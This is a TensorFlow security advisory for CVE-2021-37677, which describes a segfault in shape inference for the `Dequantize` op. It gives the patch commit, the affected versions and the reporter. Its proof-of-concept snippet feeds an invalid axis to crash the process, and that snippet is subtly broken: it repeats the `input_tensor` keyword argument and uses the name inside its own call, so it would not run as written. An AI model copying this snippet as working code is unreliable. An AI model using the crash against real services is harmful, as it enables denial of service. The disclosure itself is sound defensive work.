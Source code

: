 ## TFSA-2021-151: Missing validation in shape inference for `Dequantize`

### CVE Number
CVE-2021-37677

### Impact
The shape inference code for `tf.raw_ops.Dequantize` has a vulnerability that
could trigger a denial of service via a segfault if an attacker provides invalid
arguments:

```python
import tensorflow as tf

tf.compat.v1.disable_v2_behavior()
tf.raw_ops.Dequantize(
  input_tensor = tf.constant(-10.0, dtype=tf.float32),
  input_tensor = tf.cast(input_tensor, dtype=tf.quint8),
  min_range = tf.constant([], shape=[0], dtype=tf.float32),
  max_range = tf.constant([], shape=[0], dtype=tf.float32),
  mode  = 'MIN_COMBINED',
  narrow_range=False,
  axis=-10,
  dtype=tf.dtypes.float32)
```

The shape inference
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/ops/array_ops.cc#L2999-L3014)
uses `axis` to select between two different values for `minmax_rank` which is
then used to retrieve tensor dimensions. However, code assumes that `axis` can
be either `-1` or a value greater than `-1`, with no validation for the other
values.

### Patches
We have patched the issue in GitHub commit
[da857cfa0fde8f79ad0afdbc94e88b5d4bbec764](https://github.com/tensorflow/tensorflow/commit/da857cfa0fde8f79ad0afdbc94e88b5d4bbec764).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
